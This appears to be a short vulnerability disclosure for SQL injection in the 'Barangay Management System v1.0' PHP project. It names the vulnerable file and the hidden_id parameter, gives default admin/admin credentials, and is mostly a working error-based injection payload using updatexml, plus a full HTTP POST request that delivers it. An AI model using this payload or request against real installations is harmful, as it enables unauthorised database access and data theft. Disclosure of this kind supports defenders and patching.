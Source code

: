 # Barangay Management System v1.0 by itsourcecode.com has SQL injection

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Vulnerability File: /bmis/pages/officials/officials.php

Vulnerability location: /bmis/pages/officials/officials.php,hidden_id

[+] Payload: hidden_id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> hidden_id


```sql
POST /bmis/pages/officials/officials.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/officials/officials.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 261

hidden_id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&txt_edit_cname=Reymar+Medes&txt_edit_contact=091234567890&txt_edit_address=Brgy.+Tan-awan.+Kabankalan+City&txt_edit_sterm=2018-05-22&txt_edit_eterm=2022-05-22&btn_save=Save&table_length=10
```

![image](https://user-images.githubusercontent.com/95555005/173292085-975c4ab3-cf90-456d-82a4-81fce93b256f.png)
